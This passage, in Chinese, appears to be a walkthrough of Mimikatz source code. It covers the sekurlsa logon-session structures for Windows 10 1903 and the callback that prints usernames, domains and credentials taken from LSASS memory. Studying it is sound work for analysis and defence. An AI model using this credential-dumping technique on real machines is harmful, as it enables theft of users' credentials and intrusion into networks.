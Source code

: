 在 Windows 10 x64 1903 系统中，Mimikatz 使用的条目如下：

```c++
{sizeof(KIWI_MSV1_0_LIST_63), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, LocallyUniqueIdentifier), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, LogonType), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, Session), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, UserName), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, Domaine), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, Credentials), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, pSid), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, CredentialManager), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, LogonTime), FIELD_OFFSET(KIWI_MSV1_0_LIST_63, LogonServer)}
```

然后通过遍历 `LogonSessionList` 依次得到用户名、域名、凭据、SID、登录时间以及登录到的服务器等信息，并将让它们临时保存在 `sessionData` 中，这是一个 `KIWI_BASIC_SECURITY_LOGON_SESSION_DATA` 结构体，其声明如下。

```c++
typedef struct _KIWI_BASIC_SECURITY_LOGON_SESSION_DATA {
    PKUHL_M_SEKURLSA_CONTEXT    cLsass;
    const KUHL_M_SEKURLSA_LOCAL_HELPER * lsassLocalHelper;
    PLUID                       LogonId;
    PLSA_UNICODE_STRING         UserName;
    PLSA_UNICODE_STRING         LogonDomain;
    ULONG                       LogonType;
    ULONG                       Session;
    PVOID                       pCredentials;
    PSID                        pSid;
    PVOID                       pCredentialManager;
    FILETIME                    LogonTime;
    PLSA_UNICODE_STRING         LogonServer;
} KIWI_BASIC_SECURITY_LOGON_SESSION_DATA, *PKIWI_BASIC_SECURITY_LOGON_SESSION_DATA;
```

最后将 `&amp;sessionData` 和 `pOptionalData` 传入回调函数 `kuhl_m_sekurlsa_enum_callback_logondata()`。

Print logon Information
=======================

Print Basic User Information
----------------------------

跟进 `kuhl_m_sekurlsa_enum_callback_logondata()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa.c

```c++
BOOL CALLBACK kuhl_m_sekurlsa_enum_callback_logondata(IN PKIWI_BASIC_SECURITY_LOGON_SESSION_DATA pData, IN OPTIONAL LPVOID pOptionalData)
{
    PKUHL_M_SEKURLSA_GET_LOGON_DATA_CALLBACK_DATA pLsassData = (PKUHL_M_SEKURLSA_GET_LOGON_DATA_CALLBACK_DATA) pOptionalData;
    ULONG i;
    //PDWORD sub = NULL;
    if((pData-&gt;LogonType != Network))
    {
        kuhl_m_sekurlsa_printinfos_logonData(pData);
        // 遍历 pLsassData 中的所有 lsass 包，这里只有一个 kuhl_m_sekurlsa_msv_package
        for(i = 0; i &lt; pLsassData-&gt;nbPackages; i++)
        {
            if(pLsassData-&gt;lsassPackages[i]-&gt;Module.isPresent &amp;&amp; lsassPackages[i]-&gt;isValid)
            {
                kprintf(L"\t%s :\t", pLsassData-&gt;lsassPackages[i]-&gt;Name);
                // CredsForLUIDFunc 为 kuhl_m_sekurlsa_enum_logon_callback_msv
                pLsassData-&gt;lsassPackages[i]-&gt;CredsForLUIDFunc(pData);
                kprintf(L"\n");
            }
        }
    }
    return TRUE;
```